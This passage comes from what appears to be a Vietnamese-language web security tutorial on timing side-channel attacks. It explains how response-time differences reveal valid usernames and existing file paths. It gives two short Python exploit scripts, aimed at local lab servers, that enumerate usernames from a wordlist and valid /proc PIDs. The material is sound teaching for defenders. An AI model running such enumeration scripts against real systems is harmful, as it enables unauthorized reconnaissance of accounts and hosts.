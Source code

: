 **Script Python mẫu:**  
```python
import requests

URL = "http://127.0.0.1:5000/login"
WORDLIST = "./xato-net-10-million-usernames-dup.txt"
THRESHOLD_S = 0.15

with open(WORDLIST, 'r') as f:
    for username in f:
        username = username.strip()
        r = requests.post(URL, data={"username": username, "password": "invalid"})
        if r.elapsed.total_seconds() > THRESHOLD_S:
            print(f"Valid Username found: {username}")
```

**Mô tả:**  
1. Script gửi yêu cầu POST với username từ một wordlist.  
2. Nếu thời gian phản hồi vượt qua ngưỡng `THRESHOLD_S` (ví dụ 0.15 giây), script xác định username hợp lệ.  

---


# 10. Lộ lọt dữ liệu qua thời gian phản hồi

#### **Tìm hiểu lỗ hổng**  
Lỗ hổng này khai thác sự khác biệt về thời gian xử lý của ứng dụng web để suy ra các thông tin nhạy cảm mà ứng dụng không hiển thị công khai. Trong ví dụ trên, ứng dụng kiểm tra thông tin meta của các tệp trên hệ thống tệp dựa trên quyền sở hữu.  

Dựa vào đoạn mã:  
1. **Kiểm tra quyền sở hữu sau khi xử lý:**  
   - Hàm `get_file_details()` tính toán meta thông tin (kích thước tệp, số lượng tệp con, và chủ sở hữu).  
   - Việc kiểm tra quyền sở hữu được thực hiện **sau** khi tính toán xong, dẫn đến thời gian xử lý khác nhau giữa các đường dẫn hợp lệ và không hợp lệ.  

#### **Khai thác**  
1. **Xác định đường dẫn hợp lệ:**  
   - Bằng cách gửi yêu cầu tới `/filecheck` với các đường dẫn khác nhau, có thể xác định đường dẫn nào tồn tại dựa trên thời gian phản hồi (đường dẫn hợp lệ mất nhiều thời gian hơn do cần tính toán meta thông tin).  

2. **Tấn công chi tiết:**  
   - **Liệt kê PID hợp lệ:**  
     - Thư mục `/proc/<pid>` chứa thông tin của các tiến trình.  
     - Bằng cách quét các giá trị `<pid>`, có thể xác định PID hợp lệ dựa trên thời gian phản hồi.  
   - **Liệt kê thư mục home hợp lệ:**  
     - Thư mục `/home/<user>` có thể được kiểm tra để liệt kê người dùng trên hệ thống.  

3. **Mã khai thác mẫu:**  
```python
import requests

URL = "http://127.0.0.1:1337/filecheck"
THRESHOLD_S = 0.003

for pid in range(0, 200):
    r = requests.get(URL, params={"filepath": f"/proc/{pid}/"})
    if r.elapsed.total_seconds() > THRESHOLD_S:
        print(f"PID hợp lệ: {pid}")
```

